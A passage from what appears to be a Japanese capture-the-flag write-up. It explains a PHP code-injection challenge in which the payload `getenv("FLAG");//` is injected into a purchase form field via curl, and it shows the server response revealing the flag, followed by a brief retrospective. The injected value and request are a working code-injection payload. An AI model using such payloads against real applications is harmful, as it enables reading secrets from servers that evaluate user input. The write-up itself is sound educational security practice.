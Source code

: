 となり, 文字列 (`getenv("FLAG")`) と数値 (`1000`) 同士の演算になってしまうからエラーが吐かれたのだと推測できる。
これを回避するために, `getenv("FLAG")`より後の文字列が実行されないようにする。具体的には, `;`で文を終わらせ, `//`で以降の文字列をコメント化する。
よって, quantity1に`getenv("FLAG")`ではなく`getenv("FLAG");//`を入れるように変えて実行すれば良い。
```text
$ curl -X POST -d 'quantity1=getenv("FLAG");//&quantity2=1&quantity3=1' https://lets-buy-some-array.web.cpctf.space/purchase.php
...(略)
            </table>
            <p>合計金額はCPCTF{3x3c_Func710n_1s_d4ng3r0u5}円です。この画面を実店舗の店員にご提示ください。</p>
        </form>
    </body>
</html>
```
<details><summary>flag</summary></details>

## 振り返り
- OSINTが面白かった
	- Geoguessr要素に加えて, 得られる情報から条件を仮定して調査する部分が主に
- 問題自体の見落としが無いようにしたい
- PPCがNewbie以外全く解けなかったので競プロも学びたい